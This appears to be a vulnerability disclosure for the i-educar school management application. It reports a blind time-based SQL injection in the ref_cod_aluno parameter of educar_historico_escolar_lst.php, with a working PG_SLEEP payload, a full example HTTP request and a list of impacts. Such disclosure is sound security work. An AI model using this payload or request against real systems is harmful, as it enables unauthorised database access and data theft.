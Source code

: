 # SQL Injection (Blind Time-Based) Vulnerability in ref_cod_aluno Parameter on educar_historico_escolar_lst.php Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `educar_historico_escolar_lst.php` endpoint of the _i-educar_ application, specifically in the `ref_cod_aluno` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/educar_historico_escolar_lst.php`  
**Parameter:** `ref_cod_aluno`

The application fails to properly validate and sanitize user input in the `ref_cod_aluno` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This may allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

 `AND 6986=(SELECT 6986 FROM PG_SLEEP(5))`

This payload introduces a **5-second time delay** in the server response, confirming that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**

```
GET /intranet/educar_historico_escolar_lst.php?ref_cod_aluno=206+AND+6986=(SELECT+6986+FROM+PG_SLEEP(5)) HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```

![[Pasted image 20250818003041.png]]

The delayed response demonstrates that the injected SQL command was successfully executed by the backend database.

![[Pasted image 20250818003142.png]]

---

## Impact

- **Unauthorized data access:** Retrieving sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting schema names, tables, and column structures
    
- **Data manipulation:** Inserting, updating, or deleting database records
    
- **Denial of Service (DoS):** Using time-based injections to disrupt application availability
    
- **Potential privilege escalation or RCE:** Depending on database configuration and available functions
    

This vulnerability could lead to full compromise of the database and exposure of sensitive application and user data.